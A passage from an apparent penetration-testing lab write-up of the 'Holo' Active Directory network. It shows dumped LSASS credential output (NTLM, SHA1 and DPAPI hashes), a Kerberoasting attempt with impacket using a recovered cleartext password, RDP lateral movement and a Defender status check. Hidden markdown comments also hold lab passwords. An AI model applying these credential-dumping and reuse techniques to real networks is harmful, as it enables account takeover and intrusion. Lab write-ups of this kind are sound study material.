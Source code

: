 Inspecting the file content we can find a clear password for a domain user:

    ...
    [*]	  Domain   : HOLOLIVE
    [*]	  Username : watamet
    [*]	  LM       : 00000000000000000000000000000000
    [*]	  NTLM     : d8d41e6cf762a8c77776a1843d4141c9
    [*]	  SHA1     : 7701207008976fdd6c6be9991574e2480853312d
    [*]	  DPAPI    : 300d9ad961f6f680c6904ac6d0f17fd0
    [*]
    
    [*]	 WDigest
    [*]	  Hostname : HOLOLIVE  
    [*]	  Username : watamet  
    [*]	  Password : [NULL]
    
    [*]	 Kerberos
    [*]	  Domain   : HOLO.LIVE  
    [*]	  Username : watamet  
    [*]	  Password : Nxxxxxxxxxxx! 
    ,,,
    
[//]: # (Nothingtoworry!)
This happens since Windows historically stored cleartext passwords in RAM, using lsass process, when an intercatvie logon session take place.
I tried to kerberosting service account users, but this time no luck:

    impacket-GetUserSPNs -outputfile kerberoastables.txt -dc-ip 10.200.95.30  'holo.live/watamet:Nothingtoworry!'
    ...
    No entry founds
So following the Lab path, that involves compromise PC-FILESRV01, I logged on this system through RDP, using the domain account that we have found before (watamet):
Let's check how privileges on the machine:

    net user watamet /domain
    ...
    Local Group Memberships
    Global Group memberships     *Domain Users

Let's check if Defender is active:

    C:\Users\watamet>powershell -c Get-MpComputerStatus
    AMEngineVersion                  : 1.1.18800.4
    AMProductVersion                 : 4.18.2111.5
    AMRunningMode                    : Normal
    AMServiceEnabled                 : True
    AMServiceVersion                 : 4.18.2111.5
    AntispywareEnabled               : True
    AntispywareSignatureAge          : 904
    AntispywareSignatureLastUpdated  : 12/23/2021 5:16:13 AM
    AntispywareSignatureVersion      : 1.355.721.0
    AntivirusEnabled                 : True
    AntivirusSignatureAge            : 904
    AntivirusSignatureLastUpdated    : 12/23/2021 5:16:15 AM
    AntivirusSignatureVersion        : 1.355.721.0
    BehaviorMonitorEnabled           : False
    ...
    RealTimeProtectionEnabled        : False
    ..


[//]: # (admin:DBManagerLogin!)